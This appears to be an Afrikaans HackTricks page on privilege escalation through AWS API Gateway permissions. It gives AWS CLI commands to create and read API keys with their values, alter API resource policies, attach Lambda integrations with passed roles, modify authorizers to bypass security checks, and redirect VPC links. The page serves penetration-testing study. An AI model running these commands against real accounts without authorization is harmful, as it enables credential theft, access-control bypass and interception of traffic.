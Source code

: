 # AWS - Apigateway Privesc

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Apigateway

Vir meer inligting kyk:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Met hierdie toestemming kan jy API-sleutels van die gekonfigureerde API's genereer (per streek).
```bash
aws --region <region> apigateway create-api-key
```
**Potensiële Impak:** Jy kan nie privesc nie met hierdie tegniek nie, maar jy kan dalk toegang kry tot sensitiewe inligting.

### `apigateway:GET`

Met hierdie toestemming kan jy gegenereerde API-sleutels van die ingestelde API's kry (per streek).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potensiële Impak:** Jy kan nie bevoorregte eskalasie uitvoer met hierdie tegniek nie, maar jy kan moontlik toegang tot sensitiewe inligting kry.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Met hierdie regte is dit moontlik om die hulpbronbeleid van 'n API te wysig om jouself toegang te gee om dit te roep en moontlik toegang tot die API gateway te misbruik (soos die aanroeping van 'n kwesbare lambda). 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potensiële Impak:** Jy sal gewoonlik nie direk kan privilige-escalate met hierdie tegniek nie, maar jy kan dalk toegang kry tot sensitiewe inligting.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die regte `apigateway:PutIntegration`, `apigateway:CreateDeployment`, en `iam:PassRole` kan **'n nuwe integrasie by 'n bestaande API Gateway REST API met 'n Lambda-funksie wat 'n IAM rol geheg het, toevoeg**. Die aanvaller kan dan **die Lambda-funksie trigger om willekeurige kode uit te voer en moontlik toegang te verkry tot die hulpbronne wat met die IAM rol geassosieer is**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Toegang tot bronne wat verband hou met die IAM rol van die Lambda-funksie.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die regte `apigateway:UpdateAuthorizer` en `apigateway:CreateDeployment` kan **'n bestaande API Gateway outentiseerder wysig** om sekuriteitskontroles te omseil of arbitrêre kode uit te voer wanneer API-versoeke gemaak word.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potensiële Impak**: Om sekuriteitskontroles te omseil, ongemagtigde toegang tot API-bronne.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Benodig toetsing
{% endhint %}

'n Aanvaller met die toestemming `apigateway:UpdateVpcLink` kan **'n bestaande VPC-skakelings aanpas om na 'n ander Netwerk Lasbalansierder te wys, wat moontlik private API-verkeer na ongemagtigde of skadelike bronne kan omskakel**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potensiële Impak**: Onbevoegde toegang tot private API-bronne, onderskepping of ontwrigting van API-verkeer.

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
